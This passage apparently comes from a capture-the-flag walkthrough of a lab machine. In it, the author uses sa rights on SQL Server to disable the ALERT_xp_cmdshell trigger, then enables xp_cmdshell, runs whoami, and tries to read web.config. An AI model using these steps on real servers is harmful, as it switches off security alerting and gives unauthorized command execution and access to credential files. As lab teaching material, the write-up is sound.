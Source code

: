 

#### Disable Trigger

These triggers are a policy put in place to alert and block attempts to
enable and use `xp_cmdshell`. The problem is, as sa, I can [disable
these
triggers](https://www.mssqltips.com/sqlservertip/2987/can-i-stop-a-system-admin-from-enabling-sql-server-xpcmdshell/).
Triggers are stored in `sys.server_triggers`:



    SQL> select name from sys.server_triggers;
    name
    ------------------------------   
    ALERT_xp_cmdshell 



Now I just need the [syntax to disable
it](https://blog.netspi.com/maintaining-persistence-via-sql-server-part-2-triggers/#triggerremoval):



    SQL> disable trigger ALERT_xp_cmdshell on all server



Now I can enable `xp_cmdshell`, and it works:



    SQL> enable_xp_cmdshell
    [*] INFO(COMPATIBILITY\POO_PUBLIC): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
    [*] INFO(COMPATIBILITY\POO_PUBLIC): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
    SQL> xp_cmdshell whoami
    output                                                                             
    ------------------------------   
    nt service\mssql$poo_public                                                        
    NULL



### Escalate to poo_public01

#### Machine Enumeration as mssql\$poo_public

mssql\$poo_public doesn't have access to much. There is a home
directory, but it is empty. The user has some access to the web
directory, but the most interesting file, `\inetput\wwwroot\web.config`
returns access denied:



    SQL> xp_cmdshell type C:\inetpub\wwwroot\web.config
    output
    ------------------------------
    Access is denied.
    NULL   
